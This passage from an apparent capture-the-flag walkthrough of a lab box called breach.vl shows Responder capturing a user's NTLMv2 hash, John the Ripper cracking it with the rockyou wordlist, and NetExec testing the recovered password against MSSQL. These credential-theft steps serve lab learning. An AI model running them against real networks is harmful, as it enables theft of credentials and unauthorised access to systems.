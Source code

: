 Then I upload it to `transfer` folder.

![962b2e25da423b54cadf3a6237d3e481.png](/resources/962b2e25da423b54cadf3a6237d3e481.png)

As soon as I use `responder` to setup the listener for NTLMSSP, I got NTLMv2 hash of Julia.Wong right away.
```
sudo responder -I tun0
```
![666c98564180851e5319ba258681e53b.png](/resources/666c98564180851e5319ba258681e53b.png)

Using John The Ripper, I easily cracked the password of this user in a very short amount of time which mean this is the intended way to solve the box.
```
john --wordlist=/usr/share/wordlists/rockyou.txt julia
```
![72f930efe8fa0d94c2605802c34cab61.png](/resources/72f930efe8fa0d94c2605802c34cab61.png)

Since MSSQL is running on port 1433 so I use try to authenticate to MSSQL using NetExec which we can see that the Julia.Wong user can access MSSQL service.
```
nxc mssql breach.vl -u 'Julia.Wong' -p 'Computer1'
```
![ac84f25c62c50d31ca40467794dab8c7.png](/resources/ac84f25c62c50d31ca40467794dab8c7.png)
